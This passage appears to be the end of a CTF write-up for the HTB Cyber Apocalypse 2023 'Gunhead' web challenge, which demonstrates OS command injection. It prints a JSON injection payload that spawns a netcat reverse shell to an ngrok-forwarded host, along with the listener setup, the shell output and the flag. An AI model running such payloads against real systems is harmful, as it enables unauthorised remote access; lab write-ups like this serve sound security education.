 **Or, you can get a shell :D**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Gunhead)-[2023.03.18|21:28:43(HKT)]
└> ngrok tcp 4444
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:17969 -> localhost:4444
[...]
```

```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Gunhead)-[2023.03.18|21:28:09(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
```

**Payload:**
```json
{
    "ip":" || nc 0.tcp.ap.ngrok.io 17969 -e '/bin/sh'"
}
```

```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/Gunhead)-[2023.03.18|21:28:09(HKT)]
└> nc -lnvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 56612
whoami;hostname;id;ip a
www
ng-gunhead-axuru-69c8bcb87c-nsl6z
uid=1000(www) gid=1000(www) groups=1000(www)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
26: eth0@if27: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether fa:1e:e5:23:24:12 brd ff:ff:ff:ff:ff:ff
    inet 10.244.17.207/32 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::f81e:e5ff:fe23:2412/64 scope link 
       valid_lft forever preferred_lft forever
cat ../flag.txt
HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}
```

Nice! We're in!

- **Flag: `HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}`**

## Conclusion

What we've learned:

1. OS Command Injection